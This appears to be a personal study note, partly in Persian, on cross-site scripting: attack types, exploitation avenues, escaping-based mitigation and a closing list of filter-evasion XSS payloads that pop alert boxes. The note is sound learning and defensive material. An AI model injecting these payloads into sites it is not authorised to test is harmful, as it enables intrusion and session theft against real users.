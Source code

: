 # XSS

##
- بعد از تزریق کد اسکریپ، باید به page source code رفته تا اثر تزریق را در صفحه ببینمی، تا رفتار سرور و متعاقبا تحوه bypass آن را متوجه شویم

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```

## Exploitation
- Session Hijacking (SEC542-4)
- Fake Page (SEC542-4)
- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

## Payloads
```Javascript
'"><script>alert('ehsan')</script>
a<script>alert('ehsan')</script>
a<SCript>alert('ehsan')</SCript>
a<scri<script>pt>alert('ehsan')</scri</script>pt>
a<img src='aaa' onerror='alert("ehsan")'/>
a<script>prompt('ehsan')</script>
a<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 101, 104, 115, 97, 110, 39, 41))</script>
a";alert("ehsan");//
a";alert("ehsan");"
a';alert('ehsan');//
a';alert('ehsan');'
/"><script>alert('ehsan')</script>
```
  
